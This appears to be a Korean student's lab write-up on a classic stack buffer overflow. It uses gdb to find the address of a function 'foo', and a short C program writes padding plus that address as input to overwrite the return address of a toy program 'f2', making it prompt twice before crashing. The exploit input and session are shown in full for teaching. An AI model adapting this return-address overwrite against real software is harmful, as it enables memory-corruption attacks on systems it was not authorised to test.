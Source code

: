 
이후, `ni` 명령어로 계속 진행해보면, <br>
`Cannot access memory at address 0x37373737`라는 문구로 에러가 발생하였음을 확인할 수 있다.

`0x37373737`이라는 주소 값에 접근하지 못하기 때문에 에러가 발생한 것으로 유추할 수 있다.

### 6) Can you give an input such that the program asks "enter id" more than once? Remember you are not changing the program. You only give some strange input that would confuse the program. You will need to redirect the standard input in order to provide numeric input as follows.

```bash
gdb$ disassemble foo
Dump of assembler code for function foo:
   0x0804849c <+0>:	push   ebp
   ......     ......        ......
   0x080484d5 <+57>:	ret
End of assembler dump.
```

먼저 `foo`의 ASM 코드를 확인해보았을 때, 주소는 `0x0804849c`이다.

`vi` 명령어로 `inp-write.c`를 새로 만들었다.
`buf`를 생성하여 문자열 ("abc...")을 담았고, 이어서 `foo` 함수의 주소인 `0x0804849c`를 담았다.

`inp-write.c`:

```c
#include <stdio.h>
#include <string.h>
int main(){
char buf[200];
        // assume we need 17 bytes to reach return address
        strcpy(buf,"abcdeabcdeabcdeab"); // 17 bytes
        // and we overwrite return address
        // with the address of foo (assume it was 0x0804849c)
        buf[17]=0x9c;
        buf[18]=0x84;
        buf[19]=0x04;
        buf[20]=0x08;
        write(1, buf, 21); // write to file number 1 which is the screen.
        return 0;
}
```

`./`로 `inp-write` 파일을 실행하면, `return address`에 `foo` 함수의 주소값이 저장되고, 그 주소값에 지정된 명령을 수행하게 된다.

```bash
$ gcc  -o  inp-write  inp-write.c
$ ./inp-write > attack-inp
$ # Check if attack-inp has the right attack bytes:
$ xxd  attack-inp
0000000: 6162 6364 6561 6263 6465 6162 6364 6561  abcdeabcdeabcdea
0000010: 629c 8404 08                             b....
$ # And use this to attack f2:
$ ./f2 < attack-inp
enter id
you entered abcdeabcdeabcdeab�
enter id
you entered eabcdeabcdeabdeab
세그멘테이션 오류 (core dumped)
```

처음 `foo`를 실행했을 때는 오류가 출력되지 않고, <br>
두번째로 `foo`를 실행하면 "세그멘테이션 오류 (core dumped)"가 출력된다. 이는 두번째 입력된 `id`가 달라 저장된 `return address`가 변경되었기 때문이다.
